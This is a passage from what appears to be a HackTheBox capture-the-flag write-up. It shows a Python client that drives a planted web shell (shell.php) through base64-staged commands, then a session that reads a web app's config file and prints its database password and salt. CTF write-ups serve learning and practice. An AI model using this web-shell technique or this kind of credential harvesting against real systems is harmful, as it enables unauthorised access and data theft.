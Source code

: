 ```
            time.sleep(self.interval)

    def do_toggle_prompt(self, args):
        if self.prompt == "":
            self.prompt = "scavenger> "
        else:
            self.prompt = ""

    def default(self, args):
        b64cmd = base64.b64encode(f"{args.rstrip()}\n".encode("utf-8")).decode("utf-8")
        stage_cmd = f"echo {b64cmd} | base64 -d > {self.stdin}"
        self.run_raw_command(stage_cmd)
        time.sleep(self.interval * 1.1)

    def run_raw_command(self, cmd, timeout=50):
        try:
            return requests.get(
                "http://sec03.rentahacker.htb/shell.php",
                params={"hidden": cmd},
                timeout=timeout,
            ).text
        except requests.exceptions.ReadTimeout:
            pass

term = Term()
try:
    term.cmdloop()
except KeyboardInterrupt:
    term.run_raw_command("rm /dev/shm/output*i /dev/shm/input*")
    print()

```

In this shell, I can `su`, change directories, etc, as it is a single running `sh` process.

## FTP Accesses

### Enumeration

Looking around the box, I find two sets of credentials that are useful The first is in the current user’s home directory, in the website install, there’s credentials for the database:

```

scavenger> pwd
/home/ib01c03/sec03/config

scavenger> cat config_inc.php
<?php
$g_hostname               = 'localhost';
$g_db_type                = 'mysqli';
$g_database_name          = 'ib01c03';
$g_db_username            = 'ib01c03';
$g_db_password            = 'Thi$sh1tIsN0tGut';

$g_default_timezone       = 'Europe/Berlin';

$g_crypto_master_salt     = 'DCD4OIydnPefp27q8Bu5TJHE2RfyO4Zit13B6zLfJdQ=';

```
